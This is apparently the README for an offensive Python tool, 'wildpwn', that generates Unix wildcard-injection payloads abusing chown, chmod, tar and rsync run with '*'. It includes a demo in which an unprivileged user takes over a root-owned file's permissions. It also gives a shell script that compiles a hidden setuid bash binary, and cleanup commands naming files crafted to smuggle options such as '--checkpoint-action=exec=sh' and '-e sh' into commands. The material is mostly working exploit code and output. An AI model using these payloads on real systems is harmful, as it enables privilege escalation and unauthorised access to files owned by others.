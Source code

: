 # First things first!
Read: https://www.exploit-db.com/papers/33930/

<br />

# Basic usage

It goes something like this:

```
usage: wildpwn.py [-h] [--file FILE] payload folder

Tool to generate unix wildcard attacks

positional arguments:
  payload      Payload to use: (combined | tar | rsync)
  folder       Where to write the payloads

optional arguments:
  -h, --help   show this help message and exit
  --file FILE  Path to file for taking ownership / change permissions. Use it
               with combined attack only.
```

<br />

## Payload types

  - **combined:** Uses the chown & chmod file reference tricks, described in section 4.1 and 4.2, combined in a single payload.
  - **tar:** Uses the Tar arbitrary command execution trick, described in section 4.3.
  - **rsync:** Uses the Rsync arbitrary command execution trick, described in section 4.4.

<br />

## Usage example
``` bash
$ ls -lh /tmp/very_secret_file
-rw-r--r-- 1 root root 2048 jun 28 21:37 /tmp/very_secret_file

$ ls -lh ./pwn_me/
drwxrwxrwx 2 root root 4,0K jun 28 21:38 .
[...]
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_1
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ python wildpwn.py --file /tmp/very_secret_file combined ./pwn_me/
[!] Selected payload: combined
[+] Done! Now wait for something like: chown uid:gid *  (or)  chmod [perms] * on ./pwn_me/. Good luck!

[...time passes / some cron gets executed...]

# chmod 000 * (for example)

[...back with the unprivileged user...]

$ ls -lha ./pwn_me/
[...]
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_1
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ ls -lha /tmp/very_secret_file
-rwxrwxrwx 1 root root 2048 jun 28 21:38 /tmp/very_secret_file
```

<br />

## Bash scripts used on tar/rsync attacks

```sh
#!/bin/sh

# get current user uid / gid
CURR_UID="$(id -u)"
CURR_GID="$(id -g)"

# save file
cat > .cachefile.c << EOF
#include <stdio.h>
int main()
{
setuid($CURR_UID);
setgid($CURR_GID);
execl("/bin/bash", "-bash", NULL);
return 0;
}
EOF

# make folder where the payload will be saved
mkdir .cache
chmod 755 .cache

# compile & give SUID
gcc -w .cachefile.c -o .cache/.cachefile
chmod 4755 .cache/.cachefile
``` 
#### Clean up (tar)
``` sh
# clean up
rm -rf ./'--checkpoint=1'
rm -rf ./'--checkpoint-action=exec=sh .webscript'
rm -rf .webscript
rm -rf .cachefile.c
``` 

#### Clean up (rsync)
``` sh
# clean up
rm -rf ./'-e sh .syncscript'
rm -rf .syncscript
rm -rf .cachefile.c
``` 

> Feel free to change them!

